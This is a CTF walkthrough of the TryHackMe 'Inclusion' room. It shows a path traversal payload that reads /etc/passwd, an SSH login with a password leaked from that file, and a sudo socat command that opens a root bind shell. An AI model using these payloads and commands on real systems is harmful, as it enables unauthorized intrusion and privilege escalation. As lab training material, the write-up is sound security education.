 # LFI \(L\)

_TryHackMe_ – [**Inclusion**](https://tryhackme.com/room/inclusion) Write-Up

_topics_: web application attacks \(LFI/RFI\), active info gathering, Linux privilege escalation

1. **Plan**
2. **Enumeration**
3. **Local Privilege Escalation**
4. **Exploitation \(Root PrivEsc\)**

new tools: nmapAutomater, socat

tools: firefox browser, terminal, gobuster/dirsearch, sudo

## 1\) Plan

We are to look for a file inclusion vulnerability in this web page. We will enumerate with nmapAutomator to see which ports are open and what OS it is running. Remember, we need to look for the ?_parameter=_ in order to exploit via file inclusion.

## 2\) Enumeration

`./nmapAutomator.sh Basic` returns:

PORT STATE SERVICE VERSION

**22/tcp open ssh** OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 \(Ubuntu Linux; protocol 2.0\)

**80/tcp open http** Werkzeug httpd 0.16.0 \(Python 3.6.9\)

so SSH and HTTP are open. Critical, but we are looking for an LFI vulnerability.

The THM lfibasics room suggests to look for “?” in the URL source code, as the “?” is often an indication preceding a _file_ parameter that can read system files. Checking for this yields a **/article?name=** page that loads articles on the website.

Further testing \(directory path traversal\) with the users file leads to three directories out \(trial and error\). **http://&lt;ip&gt;/article?name=../../../etc/passwd** prints the user page. This will be the attack vector for the file inclusion vulnerability.

## 3\) Local Privilege Escalation

**http://&lt;ip&gt;/article?name=../../../etc/passwd**

Because we are able to view the users file, this gives us low level access to print files from the system. Conveiently, the user falconfeast has their password listed in the users file as rootpassword. Because SSH is open, we can SSH into their account with this password and obtain a low level shell with falconfeast permissions.

`ssh falconfeast@<victimIP> -p22`

## 4\) Exploitation \(Root PrivEsc\)

Using the standard method of Linux Privilege Escalation techniques, first we check for sudo permissions and SUID files, as these are common attack vectors to root machines. Using our low-level shell: `sudo -l` yields that /usr/bin/socat has root NOPASSWD permissions. So we potentially can open a shell with root privileges using socat.

Searching GTFObins did not yield a straightforward answer \(though they usually do\) so instead I googled socat sudo permissions, this lead me to a webpage that explains:

_on victim_: `sudo socat TCP4-LISTEN:1234,reuseaddr EXEC:"/bin/sh"`

* TCP4-LISTEN:&lt;port&gt;: listens on a port and accepts TCP connections wth IPv4
* reuseaddr: Allows other sockets to bind to an address even if already in use
* EXEC:”/bin/sh”: forks subprocess that establishes communication with its parent process and invokes the specified program, aka a shell.

_on attacker_: `socat – TCP4:<victimIP>:1234`

this returns a bind shell \(established on target sent back to attacker\) running with root privileges, compromising the machine and giving us root access.

